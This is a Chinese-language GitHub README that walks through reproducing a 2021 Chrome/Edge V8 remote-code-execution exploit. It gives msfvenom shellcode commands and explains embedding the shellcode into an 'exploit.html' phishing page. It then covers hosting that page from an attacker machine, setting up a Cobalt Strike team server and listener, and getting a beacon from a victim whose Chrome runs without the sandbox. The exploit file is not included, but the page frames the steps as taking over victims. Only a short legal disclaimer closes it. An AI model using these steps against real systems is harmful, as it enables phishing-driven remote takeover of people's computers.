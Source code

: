 # Chrome-0day
## 漏洞介绍

Google Chrome是由Google开发的免费网页浏览器。经测试，此漏洞影响 Chrome 最新正式版（89.0.4389.128）以及基于Chromium内核的Microsoft Edge正式版（89.0.774.76）。攻击者可通过构造特制web页面并诱导受害者访问来利用此漏洞获得远程代码执行。

Chrome一直是很多用户使用的浏览器，最新出来了一个[Chrome 0Day](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247493386&idx=1&sn=168b3a6d23acb04b144bbc4e0ec44e8a&scene=21#wechat_redirect) ，然后我这边已经成功复现，配合这个0day，可以执行任意命令，不过前提条件是需要chrome开启--no-sandbox无沙盒模式，我们可以生成一个链接让受害者点击直接上线Cobalt Strike。

## 影响范围

Google Chrome <= 89.0.4389.128

基于Chromium内核的Microsoft Edge <= 89.0.774.76

其他基于V8引擎的浏览器

目前最新版90.0.4430.72 (正式版本)也受影响。

## 漏洞复现过程

测试环境：

靶机

IP：192.168.43.233

Windows 10 x64

Chrome 90.0.4430.72 (正式版本)

攻击机

IP：192.168.43.232

MacBookPro MacOS Big Sur 版本 11.2.3

Cobalt Strike 4.2

## 1. 执行系统命令

### 1.1 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

**64位操作系统：**

```
msfvenom -a x64 -p windows/x64/exec CMD="calc" EXITFUNC=thread -f num
```

**32位操作系统：**

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*（当然也可以换成其他系统命令，注意这里的架构要和浏览器所在操作系统的保持一致，一般为64位）*

### 1.2 制作html钓鱼文件


将生成的代码放入exploit.html中shellcode[]中。

#### 1.2.1 方式一

浏览器关闭沙盒并打开网页，可以看到已经成功执行计算器命令。

```
"C:\Program Files\Google\Chrome\Application\chrome.exe" --no-sanbox file:///C:/chrome0day/exploit.html
```
<img src="$imgs/image-20210419212729010.png" alt="image-20210419212729010" style="zoom:50%;" />

#### 1.2.2 方式二

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

用关闭沙盒的Chrome浏览器访问以下链接，可以看到已经成功执行计算器命令。

http://192.168.43.232/exploit.html

<img src="$imgs/image-20210419213214973.png" alt="image-20210419213214973" style="zoom:50%;" />

### 1.2.3 关闭沙盒方法：

**命令方式：**

chrome.exe --no-sandbox

**手动方式：**

在快捷方式属性中目标后面添加" --no-sandbox",注意引号后有一个空格。

<img src="$imgs/image-20210419212821226.png" alt="image-20210419212821226" style="zoom:33%;" />



## 2. 利用Cobalt Strike 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

<img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom:50%;" />

**2.1.3 启动监听器：**

<img src="$imgs/image-20210419210046476.png" alt="image-20210419210046476" style="zoom:50%;" />

### 2.2 Cobalt Strike生成payload

**2.2.1 按照以下步骤生成payload.c文件，注意这里勾选x64。**

<img src="$imgs/image-20210419210123713.png" alt="image-20210419210123713" style="zoom: 33%;" />

<img src="$imgs/image-20210419210355208.png" alt="image-20210419210355208" style="zoom: 33%;" />

**2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。**

![image-20210419210638146]($imgs/image-20210419210638146.png)

**2.2.3 将引号里的代码复制到exploit.html文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。**

![image-20210419212051276]($imgs/image-20210419212051276.png)

**2.2.4 打开没有开启沙盒的Chrome浏览器访问：http://192.168.43.232/exploit.html**

![image-20210419210849819]($imgs/image-20210419210849819.png)

**2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。**

![image-20210419210953419]($imgs/image-20210419210953419.png)



**至此Chrome-0day复现完成，仅供参考，严禁非法破坏他人系统，严格遵守《中华人民共和国网络安全法》，如有违反，后果自负，与作者无关。**
